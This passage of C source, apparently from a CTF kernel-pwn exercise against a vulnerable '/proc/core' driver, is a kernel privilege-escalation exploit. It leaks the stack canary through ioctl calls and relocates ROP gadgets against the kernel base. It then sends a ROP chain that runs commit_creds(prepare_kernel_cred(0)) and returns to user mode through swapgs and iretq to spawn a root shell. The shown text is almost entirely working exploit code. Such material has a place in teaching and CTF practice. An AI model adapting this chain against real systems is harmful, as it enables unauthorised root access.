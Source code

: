 ```c
    pop_rcx_ret += vmlinux_base;

    mov_rdi_rax_jmp_rcx += vmlinux_base;
    mov_rdi_rax_jmp_rdx += vmlinux_base;

    swapgs_popfq_ret += vmlinux_base;
    iretq_ret += vmlinux_base;

    info("commit_creds" , commit_creds);
    info("prepare_kernel_cred" , prepare_kernel_cred);
}

int main(){
    
    char buf[0x40] = {0};
    size_t rop[0x600] = {0};
    size_t canary ;
    int i = 0x40/8;

    int fd = open("/proc/core" , O_RDWR);

    ioctl(fd ,0x6677889c , 0x40 );
    ioctl(fd ,0x6677889b , buf );
    canary = *(size_t *)(buf);
    info("canary" ,canary);

    get_address();
    set_offset();
    save_status();

    //commit_creads(prepare_kernel_cred(0));
    rop[i++] = canary;
    rop[i++] = 0;
    rop[i++] = pop_rdi_ret;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;
    rop[i++] = pop_rdx_ret;
    rop[i++] = commit_creds;
    rop[i++] = mov_rdi_rax_jmp_rdx;


    rop[i++] = swapgs_popfq_ret;
    rop[i++] = 0;
    rop[i++] = iretq_ret;
    rop[i++] = (size_t )shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd , rop , 0x800);

    ioctl(fd , 0x6677889A ,  0xffffffffffff0000|0x100);
    error("Failed to get root");

    // return 0;

}
```

